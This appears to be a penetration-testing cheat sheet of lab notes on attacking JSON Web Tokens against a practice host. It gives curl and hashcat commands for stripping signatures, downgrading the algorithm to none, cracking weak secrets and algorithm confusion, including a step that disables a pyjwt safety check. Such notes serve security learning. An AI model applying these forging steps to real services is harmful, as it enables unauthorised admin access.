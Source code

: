 # JSON Web Tokens JWT Penetration Testing

## Tools: Burpsuite, cURL, https://jwt.io/ (JWT Decoder and editor), Cyberchef https://gchq.github.io/CyberChef/

## Attacks:

### 1) Sensitive Information Disclosure

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Authenticate with a user and grab the JWT token from that user)

### Go to jwt.io to decode the token and check the values inside the claim portion of the token. We may find sensitive information like internal resources, etc.

### 2) Signature is not verified

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password1" }' http://10.10.190.243/api/v1.0/example1 (Grab the JWT token)

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT token)

### Go to jwt.io and try to verify the user WITHOUT the signature by removing the signature part leaving ONLY the dot (.).

### Try to authenticate with the SIGNATURELESS token again to check if you can verify the user even without the signature.

### Modify any values we may find in the token. Example:

#### Change the admin value from 0 to 1, then verify as admin with the newly modified JWT token.

    curl -H 'Authorization: Bearer MODIFIED_SIGNATURELESS_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin


### 3) Signature algorithm downgrade to NONE

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

    curl -H 'Authorization: Bearer JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=user (Authenticate with the JWT Token)

### Go to jwt.io to modify the values inside the claim portion of the token: Admin from 0 to 1 for example.

    curl -H 'Authorization: Bearer MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin

### If the response of the server contains: "Signature verification failed" we can go for the downgrade attack to None algorithm.

### Go to cyberchef, then take the HEADER part of the JWT token and use the JWT decode recipe to get the plain text of the JWT header.

### Grab the plain text JWT header, change the Alg to None and encode it with base64.

### After this, put the base64 encoded header we just made at the BEGINNING of our modified JWT token to replace the previous header with the None algorithm. REMOVE THE EQUAL SIGN FROM THE BASE64 HEADER TO NOT GET ANY COMPLAINTS FROM THE SERVER RESPONSE!

    curl -H 'Authorization: Bearer ALG_NONE_HEADER_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 4) Weak Symmetric Secrets

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token)

    nano jwt.txt (Save the retrieved JWT in a text file)

    wget https://raw.githubusercontent.com/wallarm/jwt-secrets/master/jwt.secrets.list (Download this wordlist for JWT secrets)

    hashcat -m 16500 -a 0 jwt.txt /usr/share/wordlists/jwt.secrets.list (Use hashcat to crack the secret of the JWT token so that we can forge our own JWT token to gain access)

### Then go to jwt.io and do the following:

### Add the secret we just cracked down to the signature part where it tells us to enter our secret we just discovered.

### Then, modify any values we may find to gain admin access. Example: admin from 0 to 1.

### Then use this newly forged JWT token to authenticate:

    curl -H 'Authorization: Bearer CRACKED_SECRET_MODIFIED_JWT_TOKEN' http://10.10.190.243/api/v1.0/example2?username=admin (Get admin access)

### 5) Signature Algorithm Confusion

    curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.190.243/api/v1.0/example3 (Grab the JWT Token with the public key in this example)

### Go to jwt.io to make the changes or use the script provided from THM that we are going to use. Script will be located in scripts folder in here.

### Add the public key to the script and make the modifications: admin from 0 to 1 for example.
    
    pip3 install pyjwt (Import the library to interact with JWT tokens using python)

### Before running the script, edit the file /usr/lib/python3/dist-packages/jwt/algorithms.py and comment out the specific code snippet:

    # if is_pem_format(key_bytes) or is_ssh_key(key_bytes):
    #    raise InvalidKeyError(
         #       "The specified key is an asymmetric key or x509 certificate and"
         #       " should not be used as an HMAC secret."
          #  )

    python3 signature-confusion-JWT.py (Run the script to generate our forged JWT token)
